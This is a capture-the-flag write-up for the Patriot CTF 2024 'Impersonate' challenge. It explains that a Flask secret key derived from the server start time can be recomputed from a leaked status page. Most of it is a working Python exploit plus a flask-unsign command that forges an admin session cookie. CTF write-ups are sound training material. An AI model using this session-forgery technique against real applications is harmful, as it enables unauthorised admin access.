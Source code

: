 # Impersonate Patriot CTF 2024

@phulelouch

### Problem:

```
server_start_time = datetime.now()
server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')
secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
app.secret_key = secure_key
```

### Way of thinking :

Flask secert key using server\_start\_time and they also public that info at /status

So we can create our own flask session.

### Solution:

I write a code to compute the Flask secret key and admin UID then use flask-unsign. The code in PatriotCTF\_Impersonate\_exploit.py

![alt text](<Screenshot 2024-09-21 at 8.32.56 PM.png>) ![alt text](<Screenshot 2024-09-21 at 8.26.15 PM.png>)

```python
# python3
import requests
from datetime import datetime, timedelta
import hashlib
import re
import uuid

BASE_URL = 'http://chal.competitivecyber.club:9999'  
STATUS_URL = f'{BASE_URL}/status'
USER_URL = f'{BASE_URL}/user'
ADMIN_URL = f'{BASE_URL}/admin'
SECRET_UUID = uuid.UUID('31333337-1337-1337-1337-133713371337')

# Step 1: Retrieve server time and uptime
def get_server_times():
    response = requests.get(STATUS_URL)
    content = response.text
    uptime_match = re.search(r'Server uptime: ([\d:]+)', content)
    current_time_match = re.search(r'Server time: ([\d\-: ]+)', content)

    if uptime_match and current_time_match:
        formatted_uptime = uptime_match.group(1)
        formatted_current_time = current_time_match.group(1)
    else:
        print("[-] Could not parse server time and uptime.")
        exit(1)
    uptime_parts = list(map(int, formatted_uptime.split(':')))
    if len(uptime_parts) == 3:
        hours, minutes, seconds = uptime_parts
        uptime = timedelta(hours=hours, minutes=minutes, seconds=seconds)
    else:
        print("[-] Unexpected uptime format.")
        exit(1)
    try:
        current_time = datetime.strptime(formatted_current_time, '%Y-%m-%d %H:%M:%S')
    except ValueError:
        print("[-] Unexpected current time format.")
        exit(1)

    return current_time, uptime

# Step 2: Compute secret key
def compute_secret_key(current_time, uptime):
    server_start_time = current_time - uptime
    server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')
    print(server_start_time)
    secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
    print(f"[+] Computed secret key: {secure_key}")
    return secure_key

# Step 3: Compute admin UID
def compute_admin_uid():
    admin_uid = uuid.uuid5(SECRET_UUID, 'administrator')
    print(f"[+] Computed admin UID: {admin_uid}")
    return str(admin_uid)


def main():
    print("[*] Starting exploit...")
    current_time, uptime = get_server_times()
    print(f"[+] Current Server Time: {current_time}")
    print(f"[+] Server Uptime: {uptime}")

    secure_key = compute_secret_key(current_time, uptime)
    admin_uid = compute_admin_uid()

    # Use:
    # flask-unsign --sign --cookie "{'username': 'administrator', 'uid': '02ec19dc-bb01-5942-a640-7099cda78081', 'is_admin': True}" --secret '0b546e552a18f98e5531bf3cf8f6c37ea405808da178bd429592731cdc2f200b'


if __name__ == '__main__':
    main()
```
